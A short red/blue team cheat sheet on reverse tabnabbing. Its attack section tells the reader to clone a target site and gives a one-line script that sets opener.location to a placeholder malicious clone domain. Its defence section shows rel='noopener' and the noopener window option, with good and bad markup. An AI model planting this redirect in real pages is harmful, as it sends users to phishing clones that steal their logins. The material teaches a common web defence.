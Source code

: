 # Reverse Tabnabbing

Reverse Tabnabbing happens when a linked to site modifies the opener location, thereby tricking a user, when they click back to the original tab, into thinking they are returning to the original website.

## Red Team

Create a site that mimicks your target site. Include a script that changes the opener location of the referring site.

```html
<!-- Target site: https://example.com -->
<!-- Your linked to site (posted somewhere like a forum): https://containstabnabbingscript.com -->
<!-- Included script: -->
<script>opener.location="https://mymaliciousexampleclone.com";</script>
```

## Blue Team

Use `rel="noopener"` for any user supplied links.

```html
<!-- Good -->
<a href="https://useruploadedsite.com/reversetabnabbinglink" target="_blank" rel="noopener">Check it out!</a>
<script>
  window.open('https://useruploadedsite.com/reversetabnabbinglink', 'new window name', 'noopener');
</script>

<!-- Bad -->
<a href="https://useruploadedsite.com/reversetabnabbinglink" target="_blank">Check it out!</a>
<script>
  window.open('https://useruploadedsite.com/reversetabnabbinglink', 'new window name');
</script>
```
